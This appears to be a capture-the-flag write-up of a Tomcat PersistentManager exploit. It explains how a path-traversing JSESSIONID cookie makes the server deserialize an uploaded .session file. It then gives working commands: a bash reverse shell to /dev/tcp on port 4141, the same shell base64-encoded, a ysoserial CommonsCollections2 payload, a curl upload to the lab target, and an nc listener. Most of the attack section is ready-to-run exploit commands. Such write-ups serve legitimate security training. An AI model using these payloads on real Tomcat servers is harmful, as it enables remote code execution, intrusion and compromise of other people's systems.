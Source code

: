 **Attack**

using a specifically crafted request, the attacker will be able to trigger remote code execution via de-serialization of the file under their control.

**exploit**

* When Tomcat receives a HTTP request with a `JSESSIONID` cookie, it will ask the `Manager` to check if this session already exists. Because the attacker can control the value of `JSESSIONID` sent in the request, what would happen if he put something like `JSESSIONID=../../../../../../opt/samples/uploads/anything`

  * Tomcat requests the Manager to check if a session with session ID `../../../../../../opt/samples/uploads/anything` exists
  * It will first check if it has that session in memory.
  * It does not. But the currently running Manager is a `PersistentManager`, so it will also check if it has the session on **disk**.
  * It will check at location directory + sessionid + ".session", which evaluates to `./session/../../../../../../opt/samples/uploads/anything.session`
    * And here we need create create a malicious Java Runtime Environment serialized Object and upload as `.session` extension to exploit unsafe Java object de-serialization vulnerability because when requesting it from `JSESSIONID` as cookie, `PersistentManager` check for session cookie in the disk and cookies are store with `.session` extension.

  * If the file exists, it will deserialize it and parse the session information from it

**Tool: [ysoserial](https://github.com/frohoff/ysoserial):** for generating payloads.

# User Exploit

**Reverse_shell:**
```bash
❯ echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```

**convert reverse shell into a java runtime executable:**
online tool for this is [here](http://jackson-t.ca/runtime-exec-payloads.html)
```bash
bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}
```

* Generate serialized object cookie with reverseshell -
```bash
❯ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > duck.session
❯ file duck.session
duck.session: Java serialization data, version 5
```


* Upload file - 
```bash
❯ curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@duck.session"
File uploaded successfully!
```

* open nc listener -
```
❯ nc -nvlp 4141
listening on [any] 4141 ...
```
